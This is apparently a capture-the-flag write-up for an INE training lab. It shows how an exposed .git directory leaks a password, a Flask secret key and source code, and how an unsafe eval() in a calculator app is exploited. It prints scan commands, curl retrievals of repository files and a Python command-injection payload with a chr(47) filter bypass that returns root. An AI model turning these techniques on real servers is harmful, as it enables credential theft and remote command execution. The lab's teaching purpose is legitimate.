










# INE Skill Dive — Recovering Key Git Repo Files

## Lab Overview

**Platform:** INE Skill Dive  
**Lab:** Recovering Key Git Repo Files  
**Category:** Network Pentesting / Git  
**Target:** `192.154.86.3`  
**Kali/Attacker:** `192.154.86.2`

This lab demonstrates how an exposed Git repository can leak sensitive information and how source-code disclosure can lead to command execution.

### Attack chain

```text
Network Discovery
      ↓
Nmap
      ↓
Nikto Web Enumeration
      ↓
Exposed .git Directory
      ↓
Git History / Configuration
      ↓
Sensitive Information Disclosure
      ↓
Source Code Disclosure
      ↓
Unsafe eval()
      ↓
Python Command Execution
      ↓
Root Access
      ↓
Final Flag
```

---

## 1. Find the Kali IP

Run:

```bash
ip a
```

The lab Kali machine used:

```text
192.154.86.2/24
```

Therefore:

```text
Kali      = 192.154.86.2
Target    = 192.154.86.3
Gateway   = 192.154.86.1
```

The lab warns not to attack the gateway.



---

## 2. Network Discovery

A network scan can identify hosts in the lab subnet:

```bash
nmap 192.154.86.2/24
```

The target was identified as:

```text
192.154.86.3
```

The scan also showed the gateway and the Kali machine. The gateway is not the intended target.



---

## 3. Scan the Target with Nmap

Run:

```bash
nmap -sS -sV 192.154.86.3
```

### What the options mean

- `-sS` — TCP SYN scan
- `-sV` — attempt to identify service/version information

The important result was:

```text
5000/tcp open
8000/tcp open http Werkzeug httpd 1.0.1 (Python 2.7.17)
```

So we have:

```text
Port 5000 → Calculator web application
Port 8000 → Python/Werkzeug HTTP service
```



---

## 4. Enumerate the Web Server with Nikto

### What is Nikto?

Nikto is a web-server scanner. It looks for common files, directories, configuration problems, missing security headers, and other potentially interesting findings.

Run:

```bash
nikto -host 192.154.86.3:8000
```

The important findings were:

```text
/.git/index
/.git/HEAD
/.git/config
/.gitignore
```

### Why is `.git` important?

`.git` is the internal directory used by Git to store repository information.

It may contain:

```text
.git/
├── config
├── HEAD
├── index
├── logs/
└── objects/
```

If `.git` is publicly accessible, an attacker may be able to recover repository history, developer information, configuration, credentials, and source code.



---

## 5. Retrieve the Git Index

Download the index:

```bash
curl http://192.154.86.3:8000/.git/index -o git_index
```

Inspect readable strings:

```bash
strings git_index
```

The output revealed:

```text
.gitignore
API.py
utils.py
```

### Why use `strings`?

The Git index is not a normal text file. `strings` extracts readable sequences from binary data, which makes it useful for quickly identifying filenames and other readable information.



---

## 6. Retrieve `.gitignore`

Run:

```bash
curl http://192.154.86.3:8000/.gitignore
```

The response showed:

```text
secret_flag
```

This tells us that a file called `secret_flag` exists and was intentionally excluded from Git tracking.

However, `.gitignore` does **not** protect a file from web access.

The web server is still serving the file directly.

---

## 7. Flag 1 — Secret Flag

Request the file:

```bash
curl http://192.154.86.3:8000/secret_flag
```

Result:

```text
314fc62dfa7de05eb5e5831a5271416de2c9
```

### Flag 1

```text
314fc62dfa7de05eb5e5831a5271416de2c9
```

### Lesson

```text
.gitignore
    ↓
reveals filename
    ↓
secret_flag
    ↓
direct HTTP request
    ↓
secret exposed
```

Being ignored by Git is not the same as being protected by the web server.



---

## 8. Retrieve Git Commit History

Run:

```bash
curl http://192.154.86.3:8000/.git/logs/HEAD
```

Git history contains information such as commit hashes, author names, email addresses, timestamps, and commit messages.

The commits repeatedly showed:

```text
Smith Jones <smith.jones@devl.evilcorp.com>
```

The same user made the commits shown in the repository.

---

## 9. Flag 2 — Committer Email

The requested email address is:

```text
smith.jones@devl.evilcorp.com
```

### Flag 2

```text
smith.jones@devl.evilcorp.com
```



---

## 10. Retrieve `.git/config`

Run:

```bash
curl http://192.154.86.3:8000/.git/config
```

The `[user]` section contained:

```text
[user]
    name = Smith Jones
    email = smith.jones@devl.evilcorp.com
    password = supers3cr3t@123!
    username = jsmith
```

The configuration therefore exposed a password.

This is a serious security problem: credentials should not be stored in Git configuration and then exposed through a web server.

---

## 11. Flag 3 — Password

The password was:

```text
supers3cr3t@123!
```

### Flag 3

```text
supers3cr3t@123!
```



---

## 12. Retrieve the Application Source Code

The Git index showed `API.py`.

Retrieve it:

```bash
curl http://192.154.86.3:8000/API.py
```

The application is Flask-based.

The source contained:

```python
app.config["SECRET_KEY"] = "k9YKOOS7phqbf8UQmAkXxYozikptDkIzZgOCBo0sBdQDY2I8rvwj"
```

---

## 13. Flag 4 — Flask SECRET_KEY

The exact key is:

```text
k9YKOOS7phqbf8UQmAkXxYozikptDkIzZgOCBo0sBdQDY2I8rvwj
```

### Important character detail

In:

```text
...ZgOCBo0s...
```

the characters are:

```text
O0
```

That means:

- `O` = capital letter O
- `0` = number zero

Long keys should be copied carefully because a single character makes the answer invalid.

### Flag 4

```text
k9YKOOS7phqbf8UQmAkXxYozikptDkIzZgOCBo0sBdQDY2I8rvwj
```



---

# 14. Understand the Vulnerability

The most important part of `API.py` is the calculator's `evaluate()` function.

The application uses Python's:

```python
eval()
```

with user-controlled input.

Conceptually:

```text
Calculator input
      ↓
evaluate()
      ↓
eval(user_input)
      ↓
Python interprets the input
```

This is dangerous because `eval()` can evaluate Python expressions rather than only mathematical operations.

The application also modifies input containing `/`:

```python
expr = " * 1.0 / ".join(expr.split("/"))
```

Therefore, a command containing `/` may be changed before reaching `eval()`.

---

# 15. Confirm the Calculator Uses the Vulnerable Function

The calculator is available on:

```text
http://192.154.86.3:5000
```

A harmless test expression is:

```text
7*'2'
```

The application evaluates it, confirming that user input reaches the backend evaluation logic.

---

# 16. Confirm Operating-System Command Execution

A direct test was used:

```python
__import__("os").popen("id").read()
```

The calculator returned:

```text
uid=0(root) gid=0(root) groups=0(root)
```

This is the critical turning point.

It proves:

1. Python code execution is possible.
2. Operating-system commands can be executed.
3. The application is executing them as `root`.

So we have root-level command execution on the intentionally vulnerable lab machine.

---

# 17. Understanding the Last Flag

The final flag is different from the first four.

The first four were obtained by reading information exposed by the web server:

```text
.gitignore  → secret_flag
.git/logs   → committer email
.git/config → password
API.py      → Flask SECRET_KEY
```

The fifth flag is located **inside the target machine's filesystem**.

At this point, the vulnerable calculator gives us a way to execute commands on that machine.

The lab's intended method is to locate the file named `flag`.

---

## 18. Locate the Flag File

The reference walkthrough uses:

```bash
find / -name flag 2>/dev/null
```

### Easy explanation

Break the command into pieces:

```text
find
```

Searches for files and directories.

```text
/
```

Starts searching from the filesystem root.

```text
-name flag
```

Looks for an item whose name is exactly `flag`.

```text
2>/dev/null
```

Hides error messages, such as permission errors.

So the complete command means:

> Search the entire target filesystem for a file named `flag`, while hiding error messages.

The lab identifies the final flag file as:

```text
/tmp/flag
```

---

# 19. Why We Used `chr(47)`

The vulnerable application modifies `/` characters in expressions.

The ASCII value of `/` is:

```text
47
```

Therefore:

```python
chr(47)
```

creates:

```text
/
```

For example:

```python
chr(47)+"tmp"+chr(47)+"flag"
```

constructs:

```text
/tmp/flag
```

without putting literal `/` characters into the original expression.

We verified the file exists with:

```python
__import__("os").path.exists(chr(47)+"tmp"+chr(47)+"flag")
```

The result was:

```text
True
```

That confirmed:

```text
/tmp/flag
```

exists on the target.

---

# 20. Read the Final Flag

Once command execution was confirmed and `/tmp/flag` was found, the file contents could be read through the same Python command-execution vulnerability.

The final flag was:

```text
b89e17d2c16bd928794bc8a8daf18adb28104964
```

### Flag 5

```text
b89e17d2c16bd928794bc8a8daf18adb28104964
```

### Easy way to understand the final stage

```text
1. Find a vulnerable function
          ↓
2. Discover eval() accepts our input
          ↓
3. Execute "id"
          ↓
4. Confirm uid=0(root)
          ↓
5. Search the filesystem
          ↓
6. Find /tmp/flag
          ↓
7. Read the file
          ↓
8. Capture Flag 5
```

A reverse shell was demonstrated in the lab material, but once direct command execution was confirmed, a reverse shell was not required to retrieve the flag.



---

# 21. Final Lab Result

The lab was completed successfully:

```text
5 / 5 flags captured
```

### Complete Flag Summary

| # | Item | Answer |
|---|---|---|
| 1 | Secret flag file | `314fc62dfa7de05eb5e5831a5271416de2c9` |
| 2 | Committer email | `smith.jones@devl.evilcorp.com` |
| 3 | Committer password | `supers3cr3t@123!` |
| 4 | Flask SECRET_KEY | `k9YKOOS7phqbf8UQmAkXxYozikptDkIzZgOCBo0sBdQDY2I8rvwj` |
| 5 | Target machine flag | `b89e17d2c16bd928794bc8a8daf18adb28104964` |


---

# 22. Commands Used — Quick Reference

## Identify IP

```bash
ip a
```

## Discover hosts

```bash
nmap 192.154.86.2/24
```

## Scan target

```bash
nmap -sS -sV 192.154.86.3
```

## Web enumeration

```bash
nikto -host 192.154.86.3:8000
```

## Download Git index

```bash
curl http://192.154.86.3:8000/.git/index -o git_index
```

## Inspect Git index

```bash
strings git_index
```

## Read `.gitignore`

```bash
curl http://192.154.86.3:8000/.gitignore
```

## Read secret flag

```bash
curl http://192.154.86.3:8000/secret_flag
```

## Read Git history

```bash
curl http://192.154.86.3:8000/.git/logs/HEAD
```

## Read Git configuration

```bash
curl http://192.154.86.3:8000/.git/config
```

## Retrieve source code

```bash
curl http://192.154.86.3:8000/API.py
```

## Confirm command execution

```python
__import__("os").popen("id").read()
```

## Locate the final flag

```bash
find / -name flag 2>/dev/null
```

---

# 23. Key Lessons Learned

### Exposed `.git` is a serious security issue

A production web server should not expose its `.git` directory.

### `.gitignore` is not a security mechanism

It controls Git tracking; it does not stop the web server from serving a file.

### Never store passwords in source-control configuration

Credentials can leak through repositories, backups, logs, and accidental exposure.

### Never pass untrusted input to `eval()`

For a calculator, a safe expression parser should be used instead of arbitrary Python evaluation.

### Source-code disclosure helps attackers understand vulnerabilities

Once `API.py` was accessible, the vulnerable `eval()` usage became obvious.

### Root privileges make exploitation much more severe

The command:

```text
uid=0(root)
```

showed that successful code execution had root privileges.

---

# 24. Final Attack Chain

```text
Target Discovery
      ↓
192.154.86.3
      ↓
Nmap
      ↓
Port 8000 discovered
      ↓
Nikto
      ↓
Exposed .git
      ↓
.gitignore
      ↓
secret_flag
      ↓
Flag 1
      ↓
.git/logs/HEAD
      ↓
Committer email
      ↓
Flag 2
      ↓
.git/config
      ↓
Password
      ↓
Flag 3
      ↓
API.py
      ↓
Flask SECRET_KEY
      ↓
Flag 4
      ↓
Unsafe eval()
      ↓
Python code execution
      ↓
uid=0(root)
      ↓
Find /tmp/flag
      ↓
Read final flag
      ↓
Flag 5
      ↓
5/5 COMPLETE
```

---

## Image Placeholder Index

Use the screenshots captured during the lab:

```text
01 — ip a
02 — nmap 192.154.86.2/24
03 — nmap -sS -sV 192.154.86.3
04 — nikto
05 — strings git_index
06 — first flag
07 — Git commit history
08 — Git config / password
09 — API.py / SECRET_KEY
10 — calculator/code execution
11 — final flag
12 — completed 5/5
```

Each placeholder is intentionally written as an HTML comment so it will not display as broken images when the Markdown is opened. Replace the placeholder with the appropriate screenshot when publishing the walkthrough.

---

## Disclaimer

This walkthrough documents techniques performed against the intentionally vulnerable INE training lab. These techniques should only be used against systems for which you have explicit authorization.
